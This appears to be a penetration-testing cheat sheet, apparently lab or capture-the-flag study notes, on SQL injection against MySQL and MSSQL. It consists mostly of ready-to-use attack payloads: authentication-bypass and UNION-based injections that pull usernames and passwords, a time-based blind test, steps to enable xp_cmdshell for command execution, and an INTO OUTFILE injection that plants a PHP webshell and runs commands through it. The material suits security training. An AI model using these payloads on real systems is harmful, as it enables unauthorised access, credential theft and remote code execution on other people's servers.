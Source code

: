 - Find the SQL Version: `select version();`
- Verify current database user: `select system_user();`
- Show Available Databases: `show databases;`
- Retrieve authentication string for user: `SELECT user, authentication_string FROM mysql.user WHERE user = 'username';
- Retrieve all strings from a user: `SELECT * FROM mysql.user WHERE user = 'username';`
### **MSSQL**
- Use impacket (Kali tool) to connect: `impacket-mssqlclient username:password@target.ip.address.here -windows-auth`
- Find MSSQL version: `SELECT @@version;`
- Show Available Databases: `SELECT name FROM sys.databases;`
- Review a database: `SELECT * FROM databasenamehere.information_schema.tables;`
- Review a specific table: `select * from databasename.tableschema.tablename;`
- Retrieve a list of usernames: `select name from sys.database_principals;`
## Identifying SQLi via Error-base Payloads
From a browser login to an SQL database 
- Test authentication bypass via injection into username: `admin' OR 1=1 -- //`
- Find MySQL version with injection: `admin' OR 1=1 in (SELECT @@version) -- //`
- Find passwords with injection: `admin' OR 1=1 in (SELECT password FROM users) -- //`
- Find specific password: `admin' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
### UNION-based payloads
From a browser login to an SQL database
- Determine number of table columns: `' ORDER BY 1-- //` 
	- Increase the value (eg. `2--`, `3--`, ect) until error, columns=errorvalue-1
- Create UNION query with # values = # columns: 
	- Eg. for columns=5: `%' UNION SELECT database(), user(), @@version, null, null -- //`
- To avoid clashes in column 1, shift values right: ````
	- Eg. for columns=5: `' UNION SELECT null, null, database(), user(), @@version  -- //
- Enumerate `columns` table: `' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
- Enumerate other tables identified from information_schema: `' UNION SELECT null, username, password, description, null FROM users -- //`
## Blind SQLi
In a browser address bar that shows username, test injection with a delay: `http://target.ip.address.here/login.php?user=username' AND IF (1=1, sleep(3),'false') -- //`

## **Manual Code Execution - MSSQL
Enable code execution in using `xp_cmdshell`: 
1. Login as administrator: `impacket-mssqlclient administrator:password@target.ip.address.here -windows-auth`
2. Enable xp_cmdshell (disabled by default): `EXECUTE sp_configure 'show advanced options', 1;` (then run `RECONFIGURE` to install)
3. Run xp_cmdshell: `EXECUTE sp_configure 'xp_cmdshell', 1;`  (then run `RECONFIGURE` to install)
4. Test xp_cmdshell: `EXECUTE xp_cmdshell 'whoami';`

## **Manual Code Execution - MYSQL**
In a SQLi vulnerable browser field;
- Create webshell.php (with `<?php system($_GET['cmd']);?>`) in a writeable web folder: `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
- Inject commands through in browser address bar: `target.ip.address.here/tmp/webshell.php?cmd=cat%20flag.txt`
